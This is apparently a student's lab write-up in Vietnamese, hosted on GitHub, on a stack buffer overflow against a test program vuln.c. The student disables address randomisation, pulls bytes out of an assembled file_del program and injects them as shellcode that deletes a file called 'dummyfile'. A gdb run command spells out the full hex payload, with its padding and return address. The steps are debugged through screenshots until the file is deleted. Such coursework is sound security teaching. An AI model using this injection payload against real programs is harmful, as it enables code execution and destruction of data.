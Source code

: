 <h1>Phan Dinh Trung - 22110083</h1>

# DELETE DUMMYFILE USING INJECTION CODE

- ## Stack frame of vuln.c:

![Screenshot 2024-09-20 223339](https://github.com/user-attachments/assets/c81b457c-0c15-44fc-8e1c-2332ad336702)

- ## Tạo `dummyfile`

![Screenshot 2024-09-20 201411](https://github.com/user-attachments/assets/3e576bf0-bb6d-4720-a903-ec11ca1d7d2f)

- ## Thay đổi shell `/bin/sh`, tắt ngẫu nhiên địa chỉ của hệ điều hành, biên dịch và liên kết mã file_del.asm, sử dụng `for i in $(objdump -d file_del grep "^" cut -f2); do echo -n 'x'$i; done; echo` để lấy địa chỉ mã lệnh trong tệp file_del và in chúng dưới dạng hex

![Screenshot 2024-09-20 201759](https://github.com/user-attachments/assets/39f8c754-7097-49cb-8652-cedb776c2a28)

- ## đặt 2 điểm break tại `0x0804843` và `0x0804846b` để xem sự khác biệt khi ta chạy chương trình

![Screenshot 2024-09-20 201855](https://github.com/user-attachments/assets/c36ce359-4bee-4c91-aac6-52da0931474a)

![Screenshot 2024-09-20 201952](https://github.com/user-attachments/assets/34fc9e46-f2ab-4612-a25d-82815694288b)

- ## chạy chương trình với câu lệnh `r $(python -c "print('\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00'+'a'*32+'\xaa\xaa\xaa\xaa')")`

![Screenshot 2024-09-20 202207](https://github.com/user-attachments/assets/24a7d62f-e005-4ee6-8f58-78d6f59bf9ac)

![Screenshot 2024-09-20 202246](https://github.com/user-attachments/assets/94895bb2-7baa-4f74-8da8-16b768ddf10d)

## => Ta thấy tại break 2 thì chỉ có 3 giá trị đầu tiên là giống với hexstring mà ta đưa vào chương trình, còn lại mọi thứ đều khác.

- ## `\x0a` là \n trong hexstring

## => Vì vậy ta nên thay đổi lại đoạn code.

- ## Code ban đầu:

![Screenshot 2024-09-20 202414](https://github.com/user-attachments/assets/492cfbcd-9bb3-44dd-8543-aecdc10681b5)

- ## Code sau khi đã thay đổi

![Screenshot 2024-09-20 202835](https://github.com/user-attachments/assets/fc37122d-a0fe-4443-b1e3-875b479012fb)

- ## Chạy lại chương trình. Lúc này ta thấy đã truyền đúng

![Screenshot 2024-09-20 203911](https://github.com/user-attachments/assets/fc472636-569e-4bcf-ab15-cfa555fdc6a7)

- ## ta thay đổi địa chỉ `0xffffd68c` thành địa chỉ của esp `0xffffd648`, và địa chỉ `0xffffd66b` thành `\x00` rồi tiếp tục chương trình

![Screenshot 2024-09-20 204250](https://github.com/user-attachments/assets/dad6ae43-8378-4373-813f-aebd262a745b)

- ## Tuy vậy khi ta kiểm tra thì file `dummyfile` vẫn còn

![Screenshot 2024-09-20 204319](https://github.com/user-attachments/assets/6498c178-d4c9-4218-99a2-29270ff266d5)

- ## Kiểm tra `file-del`

![Screenshot 2024-09-20 204413](https://github.com/user-attachments/assets/8e65ced0-bd98-4b0c-a664-6ec3bcfe5c3b)

- ## Ta thấy dummyfile được lưu trữ tại địa chỉ `0x0804807a`, và lệnh `mov $0x804807a, %ebx`, vì vật, việc xóa thực chất chỉ là làm thanh ghi `ebx` không còn chỉ đến địa chỉ nó nữa. vì thế ta cần đặt lại địa chỉ `dummyfile` trong chương trình đến địa chỉ của `ebx`.

![Screenshot 2024-09-20 205459](https://github.com/user-attachments/assets/3ed13336-55d0-4755-90a4-2a6ae388530f)

- ## Kết quả:

![Screenshot 2024-09-20 205521](https://github.com/user-attachments/assets/ba374c89-48c5-4ba8-84d4-20632ecdc75e)

## => Ta đã xóa được file `dummyfile`
